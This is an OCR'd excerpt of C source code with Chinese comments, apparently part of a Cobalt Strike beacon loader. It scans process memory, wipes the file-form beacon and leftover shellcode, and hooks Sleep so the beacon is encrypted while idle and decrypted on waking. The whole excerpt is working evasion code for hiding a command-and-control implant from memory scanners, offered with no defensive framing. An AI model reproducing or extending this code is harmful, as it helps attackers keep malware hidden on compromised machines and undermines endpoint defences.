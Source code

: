 ```php
        // 更新到下一个内存页  
        lpAddress \= (LPVOID)((DWORD\_PTR)mbi.BaseAddress + mbi.RegionSize);  
    }  
​  
    // 更新为已扫描内存  
    memoryInfo.isScanMemory \= TRUE;  
​  
    // 释放shellcode内存页  
    VirtualFree(memoryInfo.memoryPage\[0\].address, 0, MEM\_RELEASE);  
}  
​  
​  
/\*  
    beacon 运行时已经可以清除内存的其他痕迹了  
\*/  
void DeleteOther() {  
    //这里发现一个问题，memoryscan之后，beacon的地址不一定是在filebeacon之后，但是大小存在差异（拉伸后的size小于file的size）;  
//所以这比较一下最后两个页，size小的为拉伸后的beacon，也就是需要加密的，size大的为文件beacon 直接初始化并修改内存属性为rw；  
    MemoryAttrib beacon\_1 \= memoryInfo.memoryPage\[memoryInfo.index \- 2\];  
    MemoryAttrib beacon\_2 \= memoryInfo.memoryPage\[memoryInfo.index \- 1\];  
    //printf("beacon1.size : %d\\n", beacon\_1.size);  
    //printf("beacon2.size : %d\\n", beacon\_2.size);  
    if (beacon\_2.size \> beacon\_1.size) {  
        //printf("发生交换\\n");  
        MemoryAttrib beacon\_3 \= beacon\_2;  
        memoryInfo.memoryPage\[memoryInfo.index \- 1\] \= memoryInfo.memoryPage\[memoryInfo.index \- 2\];  
        memoryInfo.memoryPage\[memoryInfo.index \- 2\] \= beacon\_3;  
    }  
​  
​  
    printf("FileBeacon Address at 0x%p\\n", memoryInfo.memoryPage\[memoryInfo.index \- 2\].address);  
    printf("Beacon Address at 0x%p\\n", memoryInfo.memoryPage\[memoryInfo.index \- 1\].address);  
​  
​  
    MemoryAttrib Beacon\_org \= memoryInfo.memoryPage\[memoryInfo.index \- 2\];  
    DWORD org\_bufSize \= Beacon\_org.size;  
    RtlSecureZeroMemory(Beacon\_org.address, org\_bufSize); // 文件形式的beacon消除  
    DWORD oldProt;  
    VirtualProtect(Beacon\_org.address, Beacon\_org.size, PAGE\_READWRITE, &oldProt);// 修改内存属性  
    printf("文件形式beacon已清除 \\n");  

    //RtlSecureZeroMemory(memoryInfo.shellcodeaddress,memoryInfo.shellcodesize ); // 残留的shellcode消除  
    printf("shellcode 地址：%x\\n", memoryInfo.shellcodeaddress);  
    memoryInfo.iscleaned \= TRUE;  
​  
​  
}  
//自定义函数指针函数  
static void(WINAPI\* OldSleep)(DWORD dwMilliseconds) \= Sleep;  
​  
void WINAPI My\_Sleep(DWORD dwMilliseconds) {  
    printf("调用sleep，休眠时间：%d\\n", dwMilliseconds);  
    //printf("oldsleep，地址是：0x%x\\n", OldSleep);  
    if (!memoryInfo.isScanMemory)   //扫描的动作只用发生一次  
        ScanMemoryMap();  
    if (!memoryInfo.iscleaned)  //清除动作只发生一次  
        DeleteOther();  
    My\_Encrypt();  
    OldSleep(dwMilliseconds);  
    My\_Decrypt();  
```